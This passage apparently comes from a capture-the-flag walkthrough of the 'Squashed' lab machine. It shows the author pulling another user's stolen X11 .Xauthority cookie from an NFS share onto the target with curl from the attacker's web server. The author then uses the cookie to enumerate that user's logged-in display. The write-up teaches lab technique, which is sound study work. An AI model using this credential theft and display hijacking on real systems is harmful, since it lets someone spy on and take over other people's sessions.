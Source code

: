 
ross is logged in and using display `:0`.

#### Verify Cookie

To see if the cookie works, I’ll try to run some enumeration commands like
`xdpyinfo` and `xwininfo`. If I try to run these from my shell as alex without
any auth, they both fail:

    
    
    alex@squashed:/home/alex$ xdpyinfo -display :0                                                             
    No protocol specified
    xdpyinfo:  unable to open display ":0".
    
    alex@squashed:/home/alex$ xwininfo -root -tree -display :0                            
    No protocol specified
    xwininfo: error: unable to open display ":0"
    

I’ll fetch a copy of the cookie from the NFS mount and save it on Squashed so
that it can be used from the session as alex. From the NFS mount on my host,
I’ll run `python3 -m http.server 80` (with `sudo` if necessary) to start a
Python webserver in that directory on my host.

From the shell as alex, I’ll fetch this file with `curl`, and write it to
`/tmp`:

    
    
    alex@squashed:/home/alex$ curl http://10.10.14.6/.Xauthority -o /tmp/.Xauthority 
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100    57  100    57    0     0    111      0 --:--:-- --:--:-- --:--:--   111
    

There’s two ways to get these tools to use this file for auth. I could put it
in `$HOME/.Xauthority` for my current user. That works, but the one trick is
that `$HOME`isn’t set:

    
    
    alex@squashed:/home/alex$ echo $HOME
    
    

But if I `export HOME=/home/alex`, then `cp /tmp/.Xauthority /home/alex/`,
it’ll work.

Alternatively, I can just use the `XAUTHORITY` environment variable set to the
file location. I can either `export` that (in which case it’ll be that way for
the rest of that session), or add it to the front of each command like this:

    
    
    alex@squashed:/home/alex$ XAUTHORITY=/tmp/.Xauthority xdpyinfo -display :0
    name of display:    :0                                
    version number:    11.0                                
    vendor string:    The X.Org Foundation                
    vendor release number:    12013000                    
    X.Org version: 1.20.13
    maximum request size:  16777212 bytes
    motion buffer size:  256
    bitmap unit, bit order, padding:    32, LSBFirst, 32  
    image byte order:    LSBFirst                         
    number of supported pixmap formats:    7              
    supported pixmap formats:                             
        depth 1, bits_per_pixel 1, scanline_pad 32        
        depth 4, bits_per_pixel 8, scanline_pad 32
    ...[snip]...
    
